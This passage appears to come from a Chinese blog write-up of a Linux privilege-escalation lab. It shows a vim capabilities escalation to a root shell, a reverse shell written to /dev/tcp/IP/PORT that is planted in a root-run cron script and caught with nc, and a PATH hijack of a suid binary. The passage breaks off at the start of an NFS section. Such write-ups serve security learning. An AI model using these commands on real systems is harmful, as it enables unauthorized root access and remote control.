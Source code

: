 搜索vim，进入以下页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/a12532ee1f234cd1811a35b3333de48a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/0702f3cff5c7454a93d726e58f9f8d19.png)

可以看到，我们直接使用以下命令就能提升到root权限
```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5032e8852b6540f6991325482a9ecdc8.png)
## 总结
这个和suid的提权方法差不多，通过查看开启capabilities的工具，然后去网站上搜索对应的提权方法
# cron jobs 提权
Cron jobs是存放特定时间运行脚本或二进制程序的文件
任何用户都可以阅读保存的 cron jobs的文件：
```
cat /etc/crontab
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b87d129a30e94eda94cb33a93f773d35.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/07348c9833c94c58990671c5a7732e48.png)
我们可以看到有一个奇怪的脚本一直在以root权限运行，脚本名字为backup.sh，而且我们也可以修改此脚本，我们写一个简单的回连shell
```
bash -i >& /dev/tcp/IP/PORT 0>&1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7613eb834a6f4311a40f44a9bca100d9.png)
保存后回到kali，使用nc监听本地的4444端口
```
nc -nvlp 4444
```
等了一会，就有一个shell连接过来
![在这里插入图片描述](https://img-blog.csdnimg.cn/dad20a6eff944be9812e93b5a84dcc40.png)
## 总结
如果无法写入文件，可以看一下cron运行的脚本内容，根据运行的工具来提权，比如tar，zip什么的
# PATH提权
如果当前用户具有写入权限的文件夹位于路径中，那可以劫持应用程序来运行脚本
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e26bee87fe44526a868dd4fad2aa5fe.png)
我们可以看到当前目录下有两个文件，都是root用户创建的，其中，test是suid文件，thm.py会执行thm文件里的内容
我们无法运行thm.py，我们运行test程序看看
![在这里插入图片描述](https://img-blog.csdnimg.cn/37a3f5f2835e4e32acb40f202a492282.png)
他显示未找到thm，结合thm.py的内容，我们可以猜测，这个文件源代码和thm.py的很相似
我们可以自己创建thm文件，因为test是suid文件，我们可以直接拿到root权限
```
echo "/bin/bash" > thm
chmod 777 thm
export PATH=/home/murdoch:$PATH   //将环境变量设置为当前文件夹，这样程序查找thm就只能找到我们创建的那个文件
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a75a89af8a1e4e959b530dac4b455d18.png)
运行test程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/c010b9d3ecba4849bd497b6500922e4d.png)
我们成功拿到了root权限
# NFS提权
特权升级向量并不局限于内部访问。共享文件夹也可以获取目标系统的 root 访问权限
NFS（网络文件共享）配置保存在 /etc/exports 文件中
```
```